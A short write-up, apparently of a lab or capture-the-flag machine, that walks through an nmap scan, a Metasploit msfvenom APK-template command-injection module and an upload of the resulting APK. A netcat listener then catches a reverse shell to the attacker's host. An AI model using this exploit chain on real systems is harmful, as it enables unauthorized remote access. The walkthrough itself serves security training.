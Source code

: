 First we ran an nmap scan on the system:
```
nmap -sV -sC -T4 10.10.10.226
```
we found an open port 5000 and then browsed to the endpoint and found a website that allowed us to upload files.
using search sploit found out that msfconsole could be used to generate a payload that could exploit the machine

commands
```
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost <attacker ip>
set lport 4444
exploit
```
the exploit did not work with the python reverse shell so we switched to a netcat reverse  shell and it generated an apk file.
We then uploaded the file to the website and opened up a netcat listener ```nc -nlvp 4444```
